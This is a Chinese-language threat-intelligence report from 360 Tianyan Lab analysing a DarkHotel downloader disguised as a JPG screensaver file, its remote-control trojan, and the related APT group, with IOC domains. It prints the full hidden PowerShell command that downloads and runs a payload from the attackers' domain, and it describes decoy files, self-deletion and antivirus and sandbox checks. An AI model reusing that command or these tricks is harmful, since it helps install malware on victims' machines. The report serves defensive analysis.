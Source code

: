 # DarkHotel定向攻击样本分析

**Author：360天眼实验室**

0x00 引言
=====

人在做，天在看。

360天眼实验室追日团队持续发现与跟踪APT活动，相关的样本、IP、域名等数据只要一出现就会立即进入我们的视线。5月10日VirusTotal上有人提交了一个样本，安博士标记为DarkHotel相关。

![](http://drops.javaweb.org/uploads/images/7f3b52d3bf81c5df88462347f0ec136b248761d6.jpg)

DarkHotel团伙在2014年被卡巴斯基做过一次暴光，但直到最近还一直非常活跃，下面我们来对VT上的这个样本做个简单的分析。

0x01 样本分析
=====

基本信息
----

样本MD5：43f3b56c1c01b007c35197c703e4d6a6  
样本大小：131,072 Bytes  
编译时间：2015-10-15 22:52:30  
文件名：DSC3013.JPG.scr

样本截图：

![](http://drops.javaweb.org/uploads/images/e3ff102146efffe339170e1f38d4aacac5015913.jpg)

详细行为
----

总体来说，样本的功能很简单，是一个典型的下载器诱饵。得到点击运行机会以后，样本会从自身释放3个图片和1个快捷方式到TEMP目录下；调用mspaint打开3个图片中的一个文件，执行TEMP目录下的快捷方式，快捷方式运行起来后会启动powershell从`http://all-microsoft-control.com/kd/f.exe`下载PE并执行。

样本首先会获取TEMP目录的路径：

![](http://drops.javaweb.org/uploads/images/85e06141c1e681a40858c8796671002ef094408c.jpg)

然后拼出4个路径：

```
%temp%\DSC3013.JPG
%temp%\DSC3014.JPG
%temp%\DSC3015.JPG
%temp%\desktop.lnk

```

![](http://drops.javaweb.org/uploads/images/40acf4ca577a3f11c42e18197a81fc843e0d151c.jpg)

会从自身文件的0x406b20的偏移处读取0xead字节的数据写入到DSC3013.JPG、DSC3014.JPG和DSC3015.JPG文件中；

![](http://drops.javaweb.org/uploads/images/f699fa89ecd2c45efc1ba0bc6ac273f17ec1ff2b.jpg)

数据为JPG图片格式文件，如图：

![](http://drops.javaweb.org/uploads/images/12186ad4336487d3114c0d47de0726ba35ded564.jpg)

图片是纯白色背景的JPG文件，因为这种纯色文件通过JPG格式的压缩后占用的空间比较小。

![](http://drops.javaweb.org/uploads/images/a2c2158bd4642665e3a091e1f6438b7eef341eff.jpg)

数据同时写入到刚才创建的3个隐藏的图片文件中，CreateFile的倒数第二个参数为2，表示该文件是隐藏的状态。

![](http://drops.javaweb.org/uploads/images/f993338f7b7e4219f0b278ee58e672745943f814.jpg)

之后会调用mspaint.exe打开DSC3013.jpg文件，因为木马样本的文件名为DSC3013.JPG.scr，而且木马样本也是图片图标，所以用图片打开DSC3013.jpg文件迷惑受害者:

![](http://drops.javaweb.org/uploads/images/291ecf679ed3584266b0807dfb1b8558096fc8da.jpg)

接下来会在同目录下再创建3个不隐藏的图片文件，并写入同样的数据：

![](http://drops.javaweb.org/uploads/images/1792df6129e370999c5255a58b55e8afbc91905f.jpg)

然后创建隐藏的desktop.lnk文件，把从文件的0x406088 处读取到的数据写入到该文件，并通过ShellExecute运行起来该快捷方式文件：

![](http://drops.javaweb.org/uploads/images/aff8de39d72fd6feeb18dacef834449c7bb49ce1.jpg)

文件的0x406088偏移处是一个快捷方式格式的文件，如图能看到快捷方式的参数信息：

![](http://drops.javaweb.org/uploads/images/0c4b7b8ff9aa44bfa6e112089f93cc814dfffdbe.jpg)

把该块数据段保存成LNK文件，命令行参数如下：

![](http://drops.javaweb.org/uploads/images/c0ae946d038fc1a2dd3e1611c5ae98a8a384e7bf.jpg)

快捷方式指向的目标为：

`%COMSPEC% /c powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('http://all-microsoft-control.com/kd/f.exe ','%temp%\~$ER96F.doc')&&echo f|xcopy %temp%\~$ER96F.doc %temp%\dwm.exe /H /Y&&%temp%\dwm.exe`

所以快捷方式被执行起来后，会调用powershell从`http://all-microsoft-control.com/kd/f.exe`下载到`%temp%\~$ER96F.doc`，并把该文件重命名为dwm.exe后，运行起来。

最后会在同目录下生成desktop.bat，并把“`del *.scr\r\ndel *.bat`”代码写入进去，试图删除掉该目录下所有的scr和bat后缀的文件，让目录看起来只有正常的图片文件。

![](http://drops.javaweb.org/uploads/images/5349d312c2a48b4b9e4fcf65a21c76161703a255.jpg)

远控木马
----

目前通过URL下载的dwm.exe已经失效，但从360公司海量的样本库中找到了这个文件不难：

![](http://drops.javaweb.org/uploads/images/efc965460a033827dd5dafeb4427c442779953ce.jpg)

分析显示此dwm.exe是一个使用OpenSSL协议的远控木马：

![](http://drops.javaweb.org/uploads/images/8b27481d462bd4ae566e237c5f6250162ede27d5.jpg)

样本的字符串加密存储样本里的，关键API都用解密后的字符串动态加载：.

![](http://drops.javaweb.org/uploads/images/290357c0758e3f8257638271f0078a5ddd599c7e.jpg)

sub_497036是字符串的解密函数：

![](http://drops.javaweb.org/uploads/images/94621c1b9b37b2aeaa0c4ceaf3ec9601dec0a38a.jpg)

样本会检测虚拟机、沙箱和杀软：

卡巴

![](http://drops.javaweb.org/uploads/images/5e8200cbce3573141be7bd758f50c4a8fed9c8ea.jpg)

沙箱检测：

![](http://drops.javaweb.org/uploads/images/1f33f865654d46eb8ed510689ea0d4ded5c4d506.jpg)

![](http://drops.javaweb.org/uploads/images/dff78d26a4921045c500c627c36ea7f5b34a38ee.jpg)

检测360的产品:

![](http://drops.javaweb.org/uploads/images/ff2a2901f6810056afebfebcfd51f86c4797f2ca.jpg)

检测金山和baidu的安全产品：

![](http://drops.javaweb.org/uploads/images/b3bf74a85abe4b08cfd67d45c53da138a49f0579.jpg)

检测通过后，会连接C&C地址的80端口，走SSL通信协议，把请求的数据包加密放到URL里，然后进行通信：

![](http://drops.javaweb.org/uploads/images/39916c4865bb12587e96fb64e4492ddd6d391c67.jpg)

C&C域名为：view-drama-online.com

相关分析
----

使用高级账号查询360威胁情报中心，样本涉及的域名[all-microsoft-control.com](https://www.virustotal.com/zh-cn/url/62e1dae33f17ff45a4aadbc40359940390eefbcf6da0a171ad8447f4a4767780/analysis/1463138828/)其实早就被内部分析团队打上了相关的标签，而外部的大部分威胁情报平台对此域名没有做什么恶意性标记：

![](http://drops.javaweb.org/uploads/images/81cffc8d4dc652b8c81924ba4fb6339b76a69ac8.jpg)

域名注册于2015年7月26日，在卡巴斯基在2014年的揭露报告以后注册，由此可见APT团伙在被公开以后并不会停止活动，根据我们的分析甚至手法上都没有大的改变。

虽然目前我们从那个域名已经下载不到 .EXE 的进一步恶意代码，但威胁情报中心包含的同源样本沙箱日志记录告诉我们还有多个历史下载路径：

![](http://drops.javaweb.org/uploads/images/55ca45c8cbd767b67e5aaf23d7c1d969111536ee.jpg)

事实上，利用360威胁情报中心的基础数据，从一个域名、样本出发我们可以把DarkHotel团伙相关的很大一部分所使用的工具和网络基础设施信息关联出来，在此基础上分析其活动历史，甚至最终定位到幕后的来源。

关联组织
----

360公司内部的长期跟踪了代号为APT-C-06的境外APT组织，其主要目标除了中国，还有其他国家，主要目的是窃取敏感数据信息，DarkHotel的活动可以视为APT-C-06组织一系列活动之一。在针对中国地区的攻击中，该组织主要针对政府、科研领域进行攻击，且非常专注于某特定领域，相关攻击行动最早可以追溯到2007年，至今还非常活跃。

该组织多次利用0day漏洞发动攻击，进一步使用的恶意代码非常复杂，相关功能模块达到数十种，涉及恶意代码数量超过200个。该组织主要针对Windows系统进行攻击，近期还会对基于Android系统的移动设备进行攻击。另外该组织进行载荷投递的方式除了传统的鱼叉邮件和水坑式攻击等常见手法，还主要基于另一种特殊的攻击手法。

我们将APT-C-06组织和其他APT组织的TTPs（战术、技术与步骤）进行了对比分析，该组织无论是整体实力还是威胁等级在现有的APT组织中都是属于很高的级别。从我们掌握的证据来看该组织有可能是由境外政府支持的黑客团体或情报机构。

0x02 IOC
=====

| 类型 | 值 |
| --- | --- |
| Downloader Domain | all-microsoft-control.com |
| C&C Domain | view-drama-online.com |